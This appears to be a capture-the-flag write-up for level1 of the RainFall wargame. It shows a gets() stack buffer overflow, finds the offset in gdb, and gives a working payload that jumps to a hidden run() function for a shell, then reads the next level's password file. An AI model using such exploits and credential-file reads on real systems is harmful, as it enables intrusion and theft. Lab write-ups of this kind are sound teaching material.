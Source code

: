In the main function, there is a call to `gets()`. What makes this program vulnerable is that we can overflow the buffer of this `gets()` call with other values and redirect it at the address we want. 

The best we can hope is to execute a Shell to take over controle with the rights of the user who owns the file. And fortunately, if we look better into the program, there is an uncalled function `run()` that opens a bash terminal.


open gdb :
```
Starting program: /home/user/level1/level1 <<< $(python -c "print 'A' * 76 + 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```

We rewrited the `seip` value and the program couldn't continue correctly not knowing what's at the address : 42424242.


0x08048444 is the address of the function `run()`,
\x44\x84\x04\x08 is the transcription of that address on a little-endian machine.

```
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
Executing in shut the stdin so we have to find a way to keep it open.
`cat` will pump in the output of the python script into an input stream and wait for more inputs until EOF.

in the terminal :

```
level1@RainFall:~$ (python -c 'print "A"*76+"\x44\x84\x04\x08";' && cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
```

Stack overflow !